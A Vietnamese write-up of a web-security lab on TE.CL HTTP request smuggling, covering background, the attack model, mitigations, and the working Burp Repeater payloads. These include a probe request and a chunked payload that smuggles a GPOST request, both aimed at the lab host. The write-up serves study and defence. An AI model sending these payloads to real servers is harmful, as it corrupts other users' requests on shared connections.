





## Thông tin bài Lab
* **Tên bài Lab**: HTTP request smuggling, basic TE.CL vulnerability
* **Chuyên đề**: HTTP Request Smuggling
* **Mức độ**: Practitioner
* **Mục tiêu**: Khai thác sự bất đồng bộ TE.CL để tuồn một yêu cầu HTTP độc lập, khiến yêu cầu tiếp theo gửi đến Back-end bị biến đổi phương thức thành `GPOST` và bị từ chối với phản hồi 403 Forbidden.

---

## 1. Kiến thức nền tảng

Lỗ hổng HTTP Request Smuggling dạng TE.CL là biến thể đối nghịch với dạng CL.TE, phát sinh khi có sự xung đột về thứ tự ưu tiên xử lý giữa các tiêu đề phân định ranh giới thông điệp trong kiến trúc máy chủ web nhiều tầng.

### 1.1. Kiến trúc chuỗi máy chủ trung gian và cơ chế phân định ranh giới
* **Mô hình kết nối chuyển tiếp:** Trong kiến trúc chuyển tiếp luồng dữ liệu, Front-end (như Nginx, HAProxy, Envoy hoặc CDN) tiếp nhận các yêu cầu HTTP từ máy khách và chuyển tiếp chúng đến Back-end (như Apache HTTP Server, Node.js, Tomcat) qua một kết nối TCP nội bộ mở liên tục nhằm tối ưu hiệu năng và độ trễ mạng.
* **Quy chuẩn phân định độ dài:** Tiêu chuẩn RFC 7230 quy định hai cơ chế chính để phân định điểm kết thúc của thân gói tin HTTP/1.1: tiêu đề Content-Length xác định số byte cố định, và tiêu đề `Transfer-Encoding: chunked` xác định dữ liệu được đóng gói theo từng khối động, kết thúc bằng khối có kích thước bằng 0 (`0\r\n\r\n`).

### 1.2. Bản chất lỗ hổng TE.CL
* **Bản chất xung đột:** Lỗ hổng TE.CL xuất hiện khi Front-end ưu tiên xử lý tiêu đề `Transfer-Encoding: chunked`, trong khi Back-end lại bỏ qua hoặc không hỗ trợ Transfer-Encoding mà chỉ xử lý tiêu đề Content-Length.
* **Xung đột quy tắc RFC 7230:** Theo chuẩn RFC 7230 mục 3.3.3, nếu một gói tin xuất hiện cả hai tiêu đề, Transfer-Encoding phải được ưu tiên tuyệt đối. Tuy nhiên, nếu Back-end không tuân thủ quy tắc này do lỗi triển khai hoặc cấu hình sai, sự bất đồng bộ về ranh giới dữ liệu sẽ lập tức phát sinh.

### 1.3. Cơ chế tạo lập trạng thái bất đồng bộ
* **Phía Front-end:** Front-end đọc toàn bộ nội dung của các khối chunked cho đến khi gặp khối kết thúc `0\r\n\r\n`, xác nhận gói tin hoàn chỉnh và chuyển tiếp toàn bộ sang Back-end.
* **Phía Back-end:** Back-end chỉ đọc số lượng byte rất nhỏ được chỉ định trong tiêu đề Content-Length, coi phần đó là phần thân của yêu cầu hiện tại và hoàn tất xử lý. Toàn bộ phần dữ liệu còn lại phía sau (vốn thuộc các khối chunked mà Front-end đã chuyển qua) bị kẹt lại trong bộ đệm tiếp nhận của socket kết nối TCP.

---

## 2. Mô hình tấn công

Mô hình tấn công TE.CL lợi dụng việc Front-end chuyển tiếp toàn bộ khối chunked lớn chứa một yêu cầu HTTP độc lập, trong khi Back-end bị giới hạn bởi Content-Length nhỏ nên để lại toàn bộ yêu cầu độc lập này trong bộ đệm TCP.

```text
[Attacker]
    │
    │ Gửi yêu cầu HTTP/1.1 chứa đồng thời:
    │ Content-Length: 4
    │ Transfer-Encoding: chunked
    │ (Body chứa chunk 5a bao trọn yêu cầu GPOST)
    ▼
[Front-end Server] (Ưu tiên Transfer-Encoding: chunked)
    │ Đọc toàn bộ khối chunk 5a và khối kết thúc 0\r\n\r\n
    │ Chuyển tiếp toàn bộ nội dung sang Back-end trên kết nối TCP dùng chung
    ▼
[Back-end Server] (Ưu tiên Content-Length: 4)
    │ Chỉ đọc đúng 4 byte đầu tiên ('5a\r\n') làm thân yêu cầu 1 -> Trả về 200 OK
    │ Toàn bộ nội dung còn lại (GPOST / HTTP/1.1...) kẹt lại trong bộ đệm TCP socket
    ▼
[Yêu cầu tiếp theo từ máy khách]
    │ Đi vào cùng kết nối TCP
    │ Back-end đọc dữ liệu bộ đệm trước: Chuỗi GPOST trở thành đầu yêu cầu mới
    ▼
[Back-end phản hồi 403 Forbidden - "Unrecognized method GPOST"]
```

### 2.1. Luồng dữ liệu tấn công
1. **Bước 1 - Gửi yêu cầu đầu độc:** Kẻ tấn công gửi yêu cầu HTTP POST chứa đồng thời `Content-Length: 4` và `Transfer-Encoding: chunked`. Phần thân gói tin chứa kích thước chunk `5a` (90 byte thập phân), theo sau là toàn bộ phần đầu của yêu cầu tuồn `GPOST / HTTP/1.1` và kết thúc bằng khối `0\r\n\r\n`.
2. **Bước 2 - Front-end chuyển tiếp:** Front-end xử lý theo `Transfer-Encoding: chunked`, phân tích khối kích thước `5a` và khối kết thúc `0`, nhận định toàn bộ thông điệp là hợp lệ và chuyển tiếp đầy đủ toàn bộ chuỗi byte qua kết nối TCP tới Back-end.
3. **Bước 3 - Back-end xử lý độ dài ngắn:** Back-end xử lý theo `Content-Length: 4`, chỉ đọc đúng 4 byte đầu tiên của phần thân (chính là chuỗi `5a\r\n`), xác định yêu cầu thứ nhất đã kết thúc, tiến hành xử lý và phản hồi mã 200 OK cho yêu cầu này.
4. **Bước 4 - Tồn đọng yêu cầu tuồn trong bộ đệm:** Toàn bộ chuỗi ký tự còn lại bắt đầu từ `GPOST / HTTP/1.1...` không bị xóa bỏ mà nằm lại trong bộ đệm tiếp nhận của socket kết nối TCP trên Back-end.
5. **Bước 5 - Kích hoạt yêu cầu bị tuồn:** Khi có một yêu cầu HTTP tiếp theo đi vào kết nối TCP này, Back-end đọc dữ liệu từ bộ đệm ra trước. Chuỗi `GPOST / HTTP/1.1` sẽ trở thành phần đầu của yêu cầu tiếp theo, dẫn đến việc Back-end xử lý phương thức GPOST thay vì phương thức hợp lệ.
6. **Bước 6 - Phản hồi lỗi hệ thống:** Do GPOST không phải là phương thức HTTP chuẩn hoặc không được định tuyến hợp lệ, Back-end phản hồi mã lỗi 403 Forbidden kèm thông báo `Unrecognized method GPOST`.

### 2.2. Nguyên nhân cốt lõi và điều kiện phát sinh lỗ hổng
* **Nguyên nhân 1:** Back-end không tuân thủ quy tắc ưu tiên Transfer-Encoding theo tiêu chuẩn RFC 7230 mục 3.3.3 khi có mặt đồng thời cả hai tiêu đề Content-Length và Transfer-Encoding.
* **Nguyên nhân 2:** Front-end chuyển tiếp nguyên vẹn yêu cầu chứa cặp tiêu đề xung đột tới Back-end mà không chuẩn hóa, không loại bỏ tiêu đề dư thừa hoặc không từ chối yêu cầu bất thường ngay tại tầng tiếp nhận.
* **Nguyên nhân 3:** Hệ thống duy trì kết nối TCP nội bộ dùng chung giữa Front-end và Back-end để phục vụ nhiều yêu cầu HTTP liên tiếp mà không có cơ chế cô lập ranh giới luồng dữ liệu an toàn.

---

## 3. Khai thác lỗ hổng

Quá trình thực nghiệm tấn công được thực hiện chi tiết bằng Burp Suite Repeater qua hai giai đoạn: Thăm dò xác định hành vi bất đồng bộ TE.CL và Khai thác tuồn yêu cầu GPOST hoàn chỉnh.

### 3.1. Thăm dò và nhận diện lỗ hổng TE.CL
Khởi tạo một yêu cầu HTTP POST với cấu hình chứa cả hai tiêu đề Content-Length và Transfer-Encoding nhằm kiểm tra độ lệch phân tích cú pháp giữa hai tầng máy chủ.

> [!NOTE]
> **Lưu ý cấu hình giao thức trong Burp Repeater:**
> Mặc dù hệ thống bài lab có hỗ trợ HTTP/2, kỹ thuật khai thác bất đồng bộ TE.CL đòi hỏi thao tác trực tiếp với các trường tiêu đề văn bản thuần của HTTP/1.1. Trong Burp Suite Repeater, hãy chuyển đổi giao thức sang `HTTP/1.1` tại mục **Request attributes** trong bảng điều khiển **Inspector**, đồng thời bỏ chọn tính năng **Update Content-Length** trong menu của Repeater.

Gói tin thăm dò được cấu hình như sau:

```http
POST / HTTP/1.1
Host: 0a9300d20390709e8094172f00ad00c2.web-security-academy.net
Content-Type: x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

1
a
0

```

Phân tích cơ chế hoạt động của gói thăm dò:
* **Xử lý Front-end:** Front-end đọc khối chunked `1` chứa ký tự `a` và khối kết thúc `0`, xác nhận gói tin hợp lệ và chuyển tiếp.
* **Xử lý Back-end:** Back-end đọc đúng 4 byte theo `Content-Length: 4` (chính là chuỗi `1\r\na`). Khối `0\r\n\r\n` còn lại bị kẹt lại trong bộ đệm kết nối TCP.

Yêu cầu thăm dò đầu tiên gửi đi nhận được phản hồi `HTTP/1.1 200 OK`.



Ngay sau đó, gửi tiếp một yêu cầu thứ hai trên cùng kết nối. Dữ liệu `0\r\n\r\n` tồn đọng trong bộ đệm bị ghép vào trước dòng yêu cầu `POST / HTTP/1.1` tiếp theo, tạo thành `0POST / HTTP/1.1`. Back-end lập tức phản hồi mã lỗi 403 Forbidden với thông báo `Unrecognized method 0POST`:

```http
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 27

"Unrecognized method 0POST"
```

Kết quả này khẳng định hệ thống mục tiêu tồn tại chính xác lỗ hổng TE.CL.



### 3.2. Xây dựng tải trọng và tuồn yêu cầu GPOST
Tiến hành nâng cấp tải trọng để tuồn một yêu cầu GPOST hoàn chỉnh vào bộ đệm của máy chủ Back-end theo yêu cầu bài toán:

```http
POST / HTTP/1.1
Host: 0a9300d20390709e8094172f00ad00c2.web-security-academy.net
Content-Type: x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5a
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

1
0

```

Phân tích cấu trúc tải trọng khai thác:
* **Kích thước khối chunk 5a:** Chuỗi `5a` chỉ định độ dài của khối chunked là 90 byte ở hệ thập phân, bao trọn toàn bộ nội dung của yêu cầu GPOST được nhúng.
* **Cấu trúc yêu cầu tuồn:** Yêu cầu tuồn chứa phương thức `GPOST`, đường dẫn `/` và một tiêu đề `Content-Length: 13` để hấp thụ phần đầu của yêu cầu kế tiếp.
* **Khối kết thúc:** Khối `0\r\n\r\n` ở cuối đóng vai trò kết thúc phần thân chunked theo góc nhìn của Front-end (lưu ý cần có đủ chuỗi phân tách dòng `\r\n\r\n` sau số 0).
* **Xử lý của Back-end:** Tiêu đề `Content-Length: 4` chỉ bao hàm đúng chuỗi `5a\r\n`. Do đó Back-end hoàn tất yêu cầu 1 ngay sau khi đọc xong dòng kích thước chunk, để lại toàn bộ phần thân từ GPOST trở đi trong bộ đệm.

Gửi yêu cầu khai thác lần thứ nhất, máy chủ trả về mã `HTTP/1.1 200 OK`.



### 3.3. Kích hoạt và ghi nhận kết quả tuồn yêu cầu
Nhấn `Send` gửi tiếp yêu cầu thứ hai trên kết nối TCP. Back-end lấy chuỗi `GPOST / HTTP/1.1` từ bộ đệm xử lý trước, nhận diện phương thức không hợp lệ và phản hồi mã trạng thái 403 Forbidden:

```http
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 27

"Unrecognized method GPOST"
```



Sau khi chuỗi GPOST được ghi nhận trên máy chủ ứng dụng, hệ thống hiển thị thông báo hoàn thành bài thực hành.



---

## 4. Biện pháp khắc phục

Để phòng chống triệt để lỗ hổng HTTP Request Smuggling dạng TE.CL, quản trị viên hệ thống và kỹ sư phần mềm cần áp dụng đồng bộ các giải pháp sau:

### 4.1. Nâng cấp toàn diện lên HTTP/2 từ đầu đến cuối
* **Đóng khung nhị phân toàn diện:** Triển khai giao thức HTTP/2 cho cả hai chiều kết nối (Client tới Front-end và Front-end tới Back-end). HTTP/2 sử dụng cơ chế đóng khung nhị phân và xác định chiều dài gói tin cố định trong cấu trúc frame, triệt tiêu hoàn toàn khả năng mơ hồ ranh giới giữa Content-Length và Transfer-Encoding.
* **Kiểm soát giáng cấp giao thức:** Nếu Front-end nhận HTTP/2 nhưng chuyển tiếp sang Back-end bằng HTTP/1.1 (giáng cấp giao thức), phải cấu hình bộ chuyển đổi để chuẩn hóa tuyệt đối các tiêu đề và loại bỏ mọi cấu trúc chunked không hợp lệ.

### 4.2. Chuẩn hóa và làm sạch tiêu đề tại tầng chuyển tiếp Front-end
* **Từ chối gói tin xung đột tiêu đề:** Cấu hình Front-end từ chối ngay lập tức (mã lỗi 400 Bad Request) bất kỳ yêu cầu nào chứa đồng thời cả hai tiêu đề Content-Length và Transfer-Encoding.
* **Chuẩn hóa dữ liệu chuyển tiếp:** Nếu buộc phải chuyển tiếp gói tin dạng chunked sang Back-end không hỗ trợ chunked, Front-end phải giải mã toàn bộ khối chunked thành dữ liệu hoàn chỉnh, tính toán lại giá trị Content-Length chuẩn xác và loại bỏ hoàn toàn tiêu đề Transfer-Encoding trước khi gửi đi.

### 4.3. Cấu hình bảo mật tại máy chủ Back-end
* **Tuân thủ tiêu chuẩn RFC 7230:** Cập nhật phần mềm máy chủ web Back-end lên phiên bản mới nhất, đảm bảo tuân thủ nghiêm ngặt chuẩn RFC 7230 mục 3.3.3: luôn ưu tiên `Transfer-Encoding: chunked` nếu xuất hiện đồng thời cả hai tiêu đề.
* **Cô lập kết nối TCP:** Giới hạn hoặc vô hiệu hóa cơ chế tái sử dụng kết nối TCP giữa Front-end và Back-end nếu lưu lượng mạng cho phép, hoặc cô lập kết nối TCP theo từng phiên người dùng riêng biệt để tránh rò rỉ dữ liệu tồn đọng giữa các máy khách khác nhau.
